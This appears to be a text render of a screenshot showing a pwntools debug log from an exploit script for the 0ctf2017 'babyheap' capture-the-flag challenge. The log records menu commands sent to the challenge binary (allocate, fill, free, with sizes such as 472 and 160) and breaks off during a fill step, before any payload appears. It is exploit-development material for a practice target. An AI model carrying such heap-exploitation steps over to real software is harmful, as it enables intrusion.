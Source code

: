 ``` Python LOG
    b'48\n'
/home/user/PycharmProjects/0ctf2017_babyheap/./main.py:12: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  io.recvuntil("Command:", timeout=1)
[DEBUG] Received 0x4b bytes:
    b'Index: Size: Content: 1. Allocate\n'
    b'2. Fill\n'
    b'3. Free\n'
    b'4. Dump\n'
    b'5. Exit\n'
    b'Command: '
/home/user/PycharmProjects/0ctf2017_babyheap/./main.py:16: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  io.sendline("3")
[DEBUG] Sent 0x2 bytes:
    b'3\n'
/home/user/PycharmProjects/0ctf2017_babyheap/./main.py:17: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  io.sendline(str(index))
[DEBUG] Sent 0x2 bytes:
    b'1\n'
/home/user/PycharmProjects/0ctf2017_babyheap/./main.py:18: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  io.recvuntil("Command:")
[DEBUG] Received 0x3c bytes:
    b'Index: 1. Allocate\n'
    b'2. Fill\n'
    b'3. Free\n'
    b'4. Dump\n'
    b'5. Exit\n'
    b'Command: '
[DEBUG] Sent 0x2 bytes:
    b'3\n'
[DEBUG] Sent 0x2 bytes:
    b'3\n'
[DEBUG] Received 0x3c bytes:
    b'Index: 1. Allocate\n'
    b'2. Fill\n'
    b'3. Free\n'
    b'4. Dump\n'
    b'5. Exit\n'
    b'Command: '
[DEBUG] Sent 0x2 bytes:
    b'1\n'
[DEBUG] Sent 0x4 bytes:
    b'472\n'
[DEBUG] Received 0x4c bytes:
    b'Size: Allocate Index 1\n'
    b'1. Allocate\n'
    b'2. Fill\n'
    b'3. Free\n'
    b'4. Dump\n'
    b'5. Exit\n'
    b'Command: '
[DEBUG] Sent 0x2 bytes:
    b'2\n'
[DEBUG] Sent 0x2 bytes:
    b'1\n'
[DEBUG] Sent 0x4 bytes:
    b'160\n'
[DEBUG] Received 0x4b bytes:
    b'Index: Size: Content: 1. Allocate\n'
    b'2. Fill\n'
```